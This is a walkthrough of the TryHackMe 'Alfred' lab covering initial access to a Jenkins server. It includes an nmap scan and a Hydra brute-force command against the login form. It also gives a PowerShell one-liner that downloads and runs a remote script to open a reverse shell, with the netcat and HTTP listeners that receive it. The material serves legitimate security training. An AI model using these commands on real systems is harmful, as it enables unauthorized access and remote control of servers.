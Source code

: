 # [Alfred - TryHackMe](https://tryhackme.com/room/alfred) | Cyanyde

Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

## Credits

- Created by [try hack me](https://tryhackme.com/p/tryhackme)
- Room type: premium

## Initial Access

### How many ports are open?

- Scan ports and versions with Nmap
    - `nmap -sV -sC -T5 <target ip> -oN jenkinsNmap`
        - **-sV** flag to scan service version
        - **-sC** flag to enable default script scan
        - **-T5** to set timing template to fastest (no rate limit in this room)
        - **-oN <filename>** to put normal output into file

> There are **3** TCP ports open

### What is the username and password for the login panel? (in the format username:password)

- The site hosted on port 8080 is a login page
- There is also a /robots.txt directory

```
# we don't want robots to click "build" links
User-agent: *
Disallow: /
```

- Use Hydra to brute force the admin password for the portal
    - Use a proxy to find the format of the login page (Firefox or BurpSuite will work fine)
        - Format is j_username=^USER^&j_password=^PASS^
    - `hydra -l admin -P /usr/share/wordlists/rockyou.txt <target ip> http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid" -s 8080`

> The username and password combination that is returned is **admin:admin**

### What is the user.txt flag?

- Find a way to execute code from inside the portal
    - Jenkins is a server that allows developers to build, test, and deploy their codebase
    - There is currently an existing project in the Jenkins portal named "project"
    - The project allows you to add Windows batch commands as part of the build instructions
- Set up a reverse shell to the machine
    - powershell iex (New-Object Net.WebClient).DownloadString('http://<attack machine ip>:<attack machine port 1>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <attack machine ip> -Port <attack machine port 2>
    - Click *apply* and *save* after adding reverse shell command in Jenkins build instructions
    - Before building (and running the reverse shell) on the Jenkins server, set up listeners on attack machine - **Important note**: In the above, attack machine port 1 should be replaced by the port of the *HTTP Web Server* and attack machine port 2 should be replaced by the port of the *Netcat listener*
        - HTTP Server to host initial reverse shell script
            - Use this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) (options are already configured in the one-liner)
            - Navigate to the folder the script is downloaded to on the attack machine
            - `python3 -m http.server <port>` to serve everything in that folder (`python -m SimpleHTTPServer <attack machine port 1> for older Python versions)
        - Netcat Listener to receive reverse shell connection
            - `nc -lvnp <attack machine port 2>` to listen on the port set in the powershell one-liner (may need to use `ncat -lvnp <attack machine port 2>` for newer distros)

